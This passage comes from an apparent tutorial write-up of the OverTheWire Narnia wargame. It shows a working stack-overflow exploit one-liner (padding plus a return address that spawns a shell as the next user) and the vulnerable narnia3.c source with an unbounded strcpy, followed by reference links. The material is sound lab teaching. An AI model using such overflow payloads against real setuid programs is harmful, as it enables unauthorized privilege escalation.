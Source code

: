 Running it gives:

```
narnia2@melinda:/tmp$ ./getshadd EGG /narnia/narnia2
EGG will be at 0xffffd945
```

### Step 4: Running the Exploit!

Now all we need to do is to run the binary with 140 bytes of junk plus the address that we want to point  the return address to:

```sh
narnia2@melinda:/tmp/ya2$ /narnia/narnia2 `python -c 'print "A"*140 + "\x45\xd9\xff\xff"'`
$ whoami
narnia3
```


------

## Level 3: Stack Overflow, Files, and Symbolic Links

### Step 1: Understanding the Problem

The fourth level starts with:

```sh
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
narnia3@melinda:/narnia$ cat narnia3.c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
```

[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP